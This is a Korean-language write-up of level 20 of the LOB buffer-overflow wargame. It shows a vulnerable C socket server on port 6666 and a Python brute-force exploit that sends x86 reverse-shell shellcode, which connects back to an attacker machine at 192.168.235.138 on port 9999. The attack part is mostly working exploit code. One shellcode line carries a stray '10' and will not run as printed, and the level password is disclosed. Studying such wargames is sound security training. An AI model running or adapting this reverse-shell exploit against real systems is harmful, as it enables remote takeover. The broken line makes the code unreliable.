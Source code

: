 ```yaml
---
layout: single
title: "LOB 20번 (xavius -> death_night)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - dark knight
        - remote BOF
*/

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <dumpcode.h>

main()
{
        char buffer[40];

        int server_fd, client_fd;
        struct sockaddr_in server_addr;
        struct sockaddr_in client_addr;
        int sin_size;

        if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
                perror("socket");
                exit(1);
        }

        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(6666);
        server_addr.sin_addr.s_addr = INADDR_ANY;
        bzero(&(server_addr.sin_zero), 8);

        if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
                perror("bind");
                exit(1);
        }

        if(listen(server_fd, 10) == -1){
                perror("listen");
                exit(1);
        }

        while(1) {
                sin_size = sizeof(struct sockaddr_in);
                if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
                        perror("accept");
                        continue;
                }

                if (!fork()){
                        send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
                        send(client_fd, "You : ", 6, 0);
                        recv(client_fd, buffer, 256, 0);
                        close(client_fd);
                        break;
                }

                close(client_fd);
                while(waitpid(-1,NULL,WNOHANG) > 0);
        }
        close(server_fd);
}
```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc](https://s01va.github.io/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


[Reverse shellcode 출처](https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG)

```c
import sys, struct, socket

host = "192.168.235.135"
port = 6666

hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
recvhexport = "\x27\x0f" # port 9999

shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
padding1 = "A" * 44
padding2 = "\x90" * 50
payload = ""

for i in range(0xff, 0xf0, -1):
	for j in range(0xff, 0x00, -1):
		for k in range(0xff, 0x00, -1):
		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		 	r.connect((host, port))
		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
		 	payload += padding1
		 	payload += retaddr
		 	payload += padding2
		 	payload += shellcode
		 	print(r.recv(52))
		 	print(r.recv(6))
		 	r.send(payload)
		 	r.close()
```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2](https://s01va.github.io/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit](https://s01va.github.io/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life